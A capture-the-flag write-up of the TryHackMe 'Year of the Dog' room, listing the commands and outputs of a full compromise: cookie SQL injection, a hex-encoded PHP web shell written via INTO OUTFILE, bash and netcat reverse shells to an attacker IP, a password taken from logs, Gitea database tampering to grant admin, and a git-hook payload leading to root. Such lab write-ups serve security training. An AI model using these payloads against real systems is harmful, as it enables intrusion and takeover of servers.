

# TryHackMe-Year of The Dog

**Scope:**

- Gitea
- Pre-receive Web Hook
- SQLite
- MySQL

**Keywords:**

- SSH Tunneling
- Web Hook
- Git
- Burp Suite
- SQL Injection
- Network Enumeration
- Remode Code Execution
- LOAD_FILE() Function
- UNHEX() Function

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn $target_ip`
- `hashid 3faefd2fcfe859aad6a5963b9928603e`
- `sudo service mysql start`
- `mysql -u root -p`
- `python3 -m http.server 8000`
- `ssh -o MACs=hmac-sha2-256 dylan@yearofthedog.thm -p 22`
- `ssh -o MACs=hmac-sha2-256 -fN -L 3000:127.0.0.1:3000 dylan@yearofthedog.thm`
- `nmap -sV -sC -T4 -A -O -Pn -oN nmap_local_result.txt 127.0.0.1`
- `scp -o MACs=hmac-sha2-256 dylan@yearofthedog.thm:/gitea/gitea/gitea.db /root/Desktop/CyberLearningFramework/yearofthedog`
- `sqlite3 gitea.db`
- `scp -o MACs=hmac-sha2-256 /root/Desktop/CyberLearningFramework/yearofthedog/gitea.db dylan@yearofthedog.thm:/gitea/gitea/gitea.db`

**System Commands:**

- `' order by 5 --+`
- `' order by 2--+`
- `' union select 1, @@version -- -`
- `' %20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%31%2c%20%40%40%76%65%72%73%69%6f%6e%20%2d%2d%20%2d`
- `' union select 1, database() -- -`
- `' union select null,LOAD_FILE('/etc/passwd')-- -`
- `select hex("<?php system($_GET['do']);?>");`
- `' union select null,unhex('3c3f7068702073797374656d28245f4745545b27646f275d293b3f3e') INTO OUTFILE '/var/www/html/shell_script.php' -- -`
- `bash -i >& /dev/tcp/10.2.37.37/11122 0>&1`
- `grep -Ri dylan 2>/dev/null`
- `netstat -plnt`
- `ss -tulwn`
- `curl 127.0.0.1:3000`
- `uname -a`
- `dpkg --version`
- `select * from user;`
- `select lower_name, is_admin from user;`
- `UPDATE user SET is_admin=1 WHERE lower_name="overthenet";`
- `mkfifo /tmp/f; nc 10.2.37.37 10222 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
- `git clone http://localhost:3000/overthenet/TESTRepo`
- `echo 'exploit_here' > README.md`
- `git add README.md`
- `git commit -m "Our Exploit”`
- `sudo -l`

### Laboratory Environment

[Year of the Dog](https://tryhackme.com/r/room/yearofthedog)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn $target_ip`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:c9:dd:9b:db:95:9e:fd:19:a9:a6:0d:4c:43:9f:fa (RSA)
|   256 c3:fc:10:d8:78:47:7e:fb:89:cf:81:8b:6e:f1:0a:fd (ECDSA)
|_  256 27:68:ff:ef:c0:68:e2:49:75:59:34:f2:bd:f0:c9:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Canis Queue
|_http-server-header: Apache/2.4.29 (Ubuntu)
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (93%), Linux 2.6.32 (93%), Linux 3.1 - 3.2 (93%), Linux 3.11 (93%), Linux 3.2 - 4.9 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> **HTTP Port Check**
> 

`curl -iLX GET http://yearofthedog.thm`

```bash
HTTP/1.1 200 OK
Date: Thu, 12 Sep 2024 12:53:10 GMT
Server: Apache/2.4.29 (Ubuntu)
Set-Cookie: id=3faefd2fcfe859aad6a5963b9928603e; path=/
Vary: Accept-Encoding
Content-Length: 598
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
        <head>
                <title>Canis Queue</title>
                <meta charset=utf-8>
                <meta name="viewport" content="width=device-width, user-scalable=no">
                <link rel="stylesheet" type="text/css" href="assets/css/dancing.css">
                <link rel="stylesheet" type="text/css" href="assets/css/alegreya.css">
                <link rel="stylesheet" type="text/css" href="assets/css/style.css">
        </head>
        <body>
                <div id="background"></div>
                <main>
                        <h1>Canis Queueing</h1>
                        <h2>Where we queue for the sake of queueing -- like all good Brits!</h2>
                        <p>You are number 11 in the queue</p>
                </main>
        </body>
</html>

```

`hashid 3faefd2fcfe859aad6a5963b9928603e`

```bash
Analyzing '3faefd2fcfe859aad6a5963b9928603e'
[+] MD2 
[+] MD5 
[+] MD4
```

> **SQL Injection Phase**
> 



**BURP COMMAND:**

```bash
'
```

`curl -isLkX $'GET' -H $'Host: yearofthedog.thm' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' -H $'Accept: image/avif,image/webp,*/*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: close' -H $'Referer: [http://yearofthedog.thm/](http://yearofthedog.thm/)' -b $'id=44eedac10b846a07c990195802cb2497\'' $'[http://yearofthedog.thm/](http://yearofthedog.thm/)'`

```bash
HTTP/1.1 200 OK
Date: Thu, 12 Sep 2024 13:15:06 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 163
Connection: close
Content-Type: text/html; charset=UTF-8
```


**BURP COMMAND:**

```bash
' order by 5 --+
```


**BURP COMMAND:**

```bash
' order by 2--+
```


**BURP COMMAND:**

```bash
' union select 1, @@version -- -
```


**BURP COMMAND:**

```bash
' union select 1, @@version -- -

URL-ENCODED TYPE:

' %20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%31%2c%20%40%40%76%65%72%73%69%6f%6e%20%2d%2d%20%2d
```


**BURP COMMAND:**

```bash
' union select 1, database() -- -
```


**BURP COMMAND:**

```bash
**' union select null,LOAD_FILE('/etc/passwd')-- -**
```

**For more SQL string functions:**

[MySQL LOAD_FILE() function - w3resource](https://www.w3resource.com/mysql/string-functions/mysql-load_file-function.php)

> **Remote Code Execution Phase**
> 

`sudo service mysql start`

`mysql -u root -p` 

```bash
Enter password: 

MariaDB [(none)]> select hex("<?php system($_GET['do']);?>");
+----------------------------------------------------------+
| hex("<?php system($_GET['do']);?>")                      |
+----------------------------------------------------------+
| 3C3F7068702073797374656D28245F4745545B27646F275D293B3F3E |
+----------------------------------------------------------+
1 row in set (0.001 sec)

```

**For online encoding tool:**

[Hex decoder: Online hexadecimal to text converter](https://cryptii.com/pipes/hex-decoder)


**BURP COMMAND:**

```bash
' union select null,unhex('3c3f7068702073797374656d28245f4745545b27646f275d293b3f3e') INTO OUTFILE '/var/www/html/shell_script.php' -- -
```

`curl -iLX GET http://yearofthedog.thm/shell_script.php?do=whoami`

```bash
HTTP/1.1 200 OK
Date: Thu, 12 Sep 2024 13:30:04 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 47
Content-Type: text/html; charset=UTF-8

44eedac10b846a07c990195802cb2497        4
\N      www-data

```

**For more about hex function:**

[MySQL UNHEX() function  - w3resource](https://www.w3resource.com/mysql/string-functions/mysql-unhex-function.php)

> **Reverse Shell Phase**
> 

`nano shshell.sh`

```bash
bash -i >& /dev/tcp/10.2.37.37/11122 0>&1
```

`python3 -m http.server 8000`

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

`nc -nlvp 11122`

```bash
listening on [any] 11122 ...
```

`curl -iLX GET http://yearofthedog.thm/shell_script.php?do=wget http://10.2.37.37:8000/shshell.sh`


`curl -iLX GET http://yearofthedog.thm/shell_script.php?do=chmod%20+x%20shshell.sh`


`curl -iLX GET http://yearofthedog.thm/shell_script.php?do=bash%20shshell.sh`


```bash
listening on [any] 11122 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.132.208] 35448
bash: cannot set terminal process group (770): Inappropriate ioctl for device
bash: no job control in this shell
www-data@year-of-the-dog:/var/www/html$ whoami
www-data
www-data@year-of-the-dog:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@year-of-the-dog:/var/www/html$ pwd
/var/www/html
www-data@year-of-the-dog:/var/www/html$ 
```

`nc -nlvp 21222`

```bash
listening on [any] 21222 ...
```

`curl -G --data-urlencode 'do=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 21222 >/tmp/f' http://yearofthedog.thm/shell_script.php`

```bash
listening on [any] 21222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.132.208] 51432
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www/html
$ 

```

> **System Enumeration & Log Analysis Phase**
> 

```bash
www-data@year-of-the-dog:/var/www/html$ ls -alt /home/dylan
total 120
drwxr-xr-x 4 dylan dylan  4096 Sep  5  2020 .
-r-------- 1 dylan dylan    38 Sep  5  2020 user.txt
-rw-rw-r-- 1 dylan dylan    53 Sep  5  2020 .gitconfig
-rw-r--r-- 1 dylan dylan 85134 Sep  5  2020 work_analysis
lrwxrwxrwx 1 root  root      9 Sep  3  2020 .mysql_history -> /dev/null
-rw-r--r-- 1 dylan dylan     0 Sep  3  2020 .sudo_as_admin_successful
lrwxrwxrwx 1 dylan dylan     9 Sep  3  2020 .bash_history -> /dev/null
drwx------ 3 dylan dylan  4096 Sep  3  2020 .gnupg
drwx------ 2 dylan dylan  4096 Sep  3  2020 .cache
-rw-r--r-- 1 dylan dylan   220 Sep  3  2020 .bash_logout
-rw-r--r-- 1 dylan dylan  3771 Sep  3  2020 .bashrc
-rw-r--r-- 1 dylan dylan   807 Sep  3  2020 .profile
drwxr-xr-x 3 root  root   4096 Sep  3  2020 ..
www-data@year-of-the-dog:/home/dylan$ grep -Ri dylan 2>/dev/null
work_analysis:Sep  5 20:52:57 staging-server sshd[39218]: Invalid user dylanLabr4d0rs4L1f3 from 192.168.1.142 port 45624
work_analysis:Sep  5 20:53:03 staging-server sshd[39218]: Failed password for invalid user dylanLabr4d0rs4L1f3 from 192.168.1.142 port 45624 ssh2
work_analysis:Sep  5 20:53:04 staging-server sshd[39218]: Connection closed by invalid user dylanLabr4d0rs4L1f3 192.168.1.142 port 45624 [preauth]
.gitconfig:     name = Dylan
.gitconfig:     email = dylan@yearofthedog.thm
```

> **SSH Connection & Internal Network Enumeration**
> 

`ssh -o MACs=hmac-sha2-256 dylan@yearofthedog.thm -p 22`

```bash
dylan@yearofthedog.thm's password: 

        __   __                       __   _   _            ____              
        \ \ / /__  __ _ _ __    ___  / _| | |_| |__   ___  |  _ \  ___   __ _ 
         \ V / _ \/ _` | '__|  / _ \| |_  | __| '_ \ / _ \ | | | |/ _ \ / _` |
          | |  __/ (_| | |    | (_) |  _| | |_| | | |  __/ | |_| | (_) | (_| |
          |_|\___|\__,_|_|     \___/|_|    \__|_| |_|\___| |____/ \___/ \__, |
                                                                        |___/ 

dylan@year-of-the-dog:~$ whoami
dylan
dylan@year-of-the-dog:~$ id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
dylan@year-of-the-dog:~$ pwd
/home/dylan
dylan@year-of-the-dog:~$ netstat -plnt
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:34365         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      - 
dylan@year-of-the-dog:~$ ss -tulwn
Netid         State           Recv-Q          Send-Q                           Local Address:Port                      Peer Address:Port          
icmp6         UNCONN          0               0                                       *%eth0:58                                   *:*             
udp           UNCONN          0               0                                127.0.0.53%lo:53                             0.0.0.0:*             
udp           UNCONN          0               0                           10.10.132.208%eth0:68                             0.0.0.0:*             
tcp           LISTEN          0               80                                   127.0.0.1:3306                           0.0.0.0:*             
tcp           LISTEN          0               128                              127.0.0.53%lo:53                             0.0.0.0:*             
tcp           LISTEN          0               128                                    0.0.0.0:22                             0.0.0.0:*             
tcp           LISTEN          0               128                                  127.0.0.1:3000                           0.0.0.0:*             
tcp           LISTEN          0               128                                  127.0.0.1:34365                          0.0.0.0:*             
tcp           LISTEN          0               128                                          *:80                                   *:*             
tcp           LISTEN          0               128                                       [::]:22                                [::]:*  
```

> **SSH Tunneling Phase**
> 

```bash
dylan@year-of-the-dog:~$ curl 127.0.0.1:3000

meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <meta http-equiv="x-ua-compatible" content="ie=edge">
        <title> Year of the Dog </title>
        <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
        <meta name="theme-color" content="#6cc644">
        <meta name="author" content="Gitea - Git with a cup of tea" />
        <meta name="description" content="Gitea (Git with a cup of tea) is a painless self-hosted Git service written in Go" />
        <meta name="keywords" content="go,git,self-hosted,gitea">
        <meta name="referrer" content="no-referrer" />
        <meta name="_csrf" content="TcSE9_GTJO328MAZqsc8iXPqJ-U6MTcyNjE3Mzk0MjcwMjY5MjA0OQ" />
        
        
 [REDACTED] - MORE
 
dylan@year-of-the-dog:~$ uname -a
Linux year-of-the-dog 4.15.0-143-generic #147-Ubuntu SMP Wed Apr 14 16:10:11 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
dylan@year-of-the-dog:~$ dpkg --version
Debian 'dpkg' package management program version 1.19.0.5 (amd64).
This is free software; see the GNU General Public License version 2 or
later for copying conditions. There is NO warranty.
```

`ssh -o MACs=hmac-sha2-256 -fN -L 3000:127.0.0.1:3000 dylan@yearofthedog.thm`

```bash
dylan@yearofthedog.thm's password: 
```

`nmap -sV -sC -T4 -A -O -Pn -oN nmap_local_result.txt 127.0.0.1`

```bash
PORT     STATE SERVICE VERSION
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=3bcf57bdf405f2b8; Path=/; HttpOnly
|     Set-Cookie: _csrf=WtJnSBHB2y5kzER0tCDk2cEzNZA6MTcyNjE3NDEzMTM1ODI5OTU0MA; Path=/; Expires=Fri, 13 Sep 2024 20:48:51 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Thu, 12 Sep 2024 20:48:51 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title> Year of the Dog </title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <meta name="theme-color" content="#6cc644">
|     <meta name="author" content="Gitea - Git with a cup of tea" />
|     <meta name="description" content="Gitea (Git with a cup of tea) is a painless self-hosted
|   HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gitea=fbba53e43f9b04c3; Path=/; HttpOnly
|     Set-Cookie: _csrf=SAHjALgRhY438k01gaSEbeBQUNU6MTcyNjE3NDEzODcyMjQ0NDE5MA; Path=/; Expires=Fri, 13 Sep 2024 20:48:58 GMT; HttpOnly
|     X-Frame-Options: SAMEORIGIN
|     Date: Thu, 12 Sep 2024 20:48:58 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head data-suburl="">
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Page Not Found - Year of the Dog </title>
|     <link rel="manifest" href="/manifest.json" crossorigin="use-credentials">
|     <meta name="theme-color" content="#6cc644">
|     <meta name="author" content="Gitea - Git with a cup of tea" />
|_    <meta name="description" content="Gitea (Git with a cup of tea) is
```

`curl -iLX GET localhost:3000`

```bash
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
Set-Cookie: i_like_gitea=02d40104d525c08c; Path=/; HttpOnly
Set-Cookie: _csrf=532QfqFx6NmUds5KL8ukpaYWhTM6MTcyNjE3NDc3MTY3MDU4OTUwMw; Path=/; Expires=Fri, 13 Sep 2024 20:59:31 GMT; HttpOnly
X-Frame-Options: SAMEORIGIN
Date: Thu, 12 Sep 2024 20:59:31 GMT
Transfer-Encoding: chunked
```


> **SQLite & Database Manipulation**
> 


```bash
dylan@year-of-the-dog:/$ ls -lsa | grep 'gitea'
     4 drwxr-xr-x   5 root root      4096 Sep  5  2020 gitea
dylan@year-of-the-dog:/$ cd gitea
dylan@year-of-the-dog:/gitea$ ls -lsa
total 20
4 drwxr-xr-x  5 root  root  4096 Sep  5  2020 .
4 drwxr-xr-x 23 root  root  4096 May 31  2021 ..
4 drwxr-xr-x  5 dylan dylan 4096 Sep  5  2020 git
4 drwxr-xr-x  9 dylan dylan 4096 Sep 12 22:06 gitea
4 drwx------  2 root  root  4096 Sep  5  2020 ssh
dylan@year-of-the-dog:/gitea$ cd gitea
dylan@year-of-the-dog:/gitea/gitea$ ls -lsa
total 1224
   4 drwxr-xr-x 9 dylan dylan    4096 Sep 12 22:06 .
   4 drwxr-xr-x 5 root  root     4096 Sep  5  2020 ..
   4 drwxr-xr-x 2 dylan dylan    4096 Sep  5  2020 attachments
   4 drwxr-xr-x 2 dylan dylan    4096 Sep  5  2020 avatars
   4 drwxr-xr-x 2 dylan dylan    4096 Sep  5  2020 conf
1188 -rw-r--r-- 1 dylan dylan 1212416 Sep 12 22:06 gitea.db
   4 drwxr-xr-x 4 dylan dylan    4096 Sep  5  2020 indexers
   4 drwxr-xr-x 2 dylan dylan    4096 Sep  6  2020 log
   4 drwxr-xr-x 6 dylan dylan    4096 Sep  5  2020 queues
   4 drwx------ 7 dylan dylan    4096 Sep 12 22:06 sessions
```

`scp -o MACs=hmac-sha2-256 dylan@yearofthedog.thm:/gitea/gitea/gitea.db /root/Desktop/CyberLearningFramework/yearofthedog`

```bash
dylan@yearofthedog.thm's password: 
gitea.db                                                                                                        100% 1184KB 172.3KB/s   00:06 
```

`sqlite3 gitea.db`

```bash
SQLite version 3.46.0 2024-05-23 13:25:27
Enter ".help" for usage hints.
sqlite> select * from user;
1|dylan|Dylan|Dylan Anderson|dylan@yearofthedog.thm|0|enabled|f2fd45caa2f5eae17cb5faa06eb57c4ad05532550fe37ae99e2245429757af09350be12abba616de4e8f0e37d223bd327261|argon2|0|0|0||0|||Rs6zSrVgx0|vkA9FTpZ72|en-US||1599331364|1599511857|1599511857|0|-1|1|1|0|0|0|1|0|8bb88c80301457422026e95699061e4a|dylan@yearofthedog.thm|1|0|0|0|1|0|0|0|0||gitea|0
2|overthenet|overthenet||overthenet@any.com|0|enabled|dfc5ca4a7f3a779832549afa9b793bf1765aeeecac86915e2d2a0c5cbb66cacc9b02038248c54bd42abdae5577a2af6f5379|argon2|0|0|0||0|||rZFx2HAswg|d4E4DZ3pDM|en-US||1726175190|1726175190|1726175190|0|-1|1|0|0|0|0|1|0|d7450bc367b3f8e3d7c6e2e59a30f843|overthenet@any.com|0|0|0|0|0|0|0|0|0||gitea|0
sqlite> select lower_name, is_admin from user;
dylan|1
overthenet|0
sqlite> UPDATE user SET is_admin=1 WHERE lower_name="overthenet";
sqlite> select lower_name, is_admin from user;
dylan|1
overthenet|1
```

`scp -o MACs=hmac-sha2-256 /root/Desktop/CyberLearningFramework/yearofthedog/gitea.db dylan@yearofthedog.thm:/gitea/gitea/gitea.db`

```bash
dylan@10.10.62.135's password: 
gitea.db                                               100% 1184KB  84.4MB/s   00:00 
```


> **Privilege Escalation with Git Hooks**
> 


`nc -nlvp 10222`

```bash
listening on [any] 10222 ...
```

**PAYLOAD:**

```bash
mkfifo /tmp/f; nc 10.2.37.37 10222 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```


```bash
dylan@year-of-the-dog:/gitea/gitea$ cd /tmp
dylan@year-of-the-dog:/tmp$ git clone http://localhost:3000/overthenet/TESTRepo
Cloning into 'TESTRepo'...
warning: You appear to have cloned an empty repository.
dylan@year-of-the-dog:/tmp$ cd TESTRepo
dylan@year-of-the-dog:/tmp/TESTRepo$ ls
dylan@year-of-the-dog:/tmp/TESTRepo$ echo 'exploit_here' > README.md
dylan@year-of-the-dog:/tmp/TESTRepo$ git add README.md
dylan@year-of-the-dog:/tmp/TESTRepo$ git commit -m "Our Exploit"
[master (root-commit) 6bb62de] Our Exploit
 1 file changed, 1 insertion(+)
 create mode 100644 README.md
dylan@year-of-the-dog:/tmp/TESTRepo$ git push
Username for 'http://localhost:3000': overthenet
Password for 'http://overthenet@localhost:3000': 
Counting objects: 3, done.
Writing objects: 100% (3/3), 228 bytes | 228.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0)
```

```bash
connect to [10.2.37.37] from (UNKNOWN) [10.10.62.135] 37411
id
uid=1000(git) gid=1000(git) groups=1000(git),1000(git)
pwd
/data/git/repositories/overthenet/testrepo.git
whoami
git
sudo -l
User git may run the following commands on 42040a8f97fc:
    (ALL) NOPASSWD: ALL
sudo su
whoami
root
id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

# Appendix

## Gitea

<aside>
💡

Gitea is a lightweight, self-hosted Git service, offering a solution for managing Git repositories with a user-friendly web interface. It is designed to be fast, easy to install, and run on minimal system resources, making it ideal for developers or teams looking for a Git hosting solution without relying on third-party services like GitHub, GitLab, or Bitbucket.

</aside>

## Pre-receive Web Hook

<aside>
💡

A pre-receive web hook is a Git server-side mechanism that allows you to execute custom scripts or perform checks before the server accepts changes pushed to a Git repository. It ensures that specific conditions are met before a commit is accepted, allowing the repository administrator to enforce policies, perform validations, or trigger automated processes.

</aside>

## SQLite

<aside>
💡

SQLite is a lightweight, serverless, self-contained, and high-performance relational database management system (RDBMS). It is widely used because of its simplicity, efficiency, and portability. Unlike other database systems like MySQL or PostgreSQL, SQLite doesn’t require a separate server process to operate, which makes it ideal for embedded systems, mobile applications, and small-scale web applications. SQLite does not require a separate server to manage database connections. The entire database engine is embedded in the application that uses it. The entire database is stored in a single file on disk. This file can be easily moved or copied, and it contains everything needed to restore or use the database.

</aside>

## SSH Tunneling

<aside>
💡

SSH Tunneling (or SSH port forwarding) is a technique that uses Secure Shell (SSH) to securely route network traffic from one machine to another through an encrypted connection. It allows you to forward a port from one system to another, which can help securely access services on remote machines, bypass firewalls, or protect sensitive traffic from eavesdropping. Remote port forwarding allows you to forward a port from the **remote machine** to a port on your local machine. This is useful when you need to expose a local service to a remote machine.

</aside>

## MySQL

<aside>
💡

MySQL is a popular open-source relational database management system (RDBMS). It is widely used for managing and storing data in databases, especially in web applications and services. MySQL is known for its speed, reliability, and ease of use, making it a top choice for many websites and platforms, including large-scale applications like Facebook and Twitter.

</aside>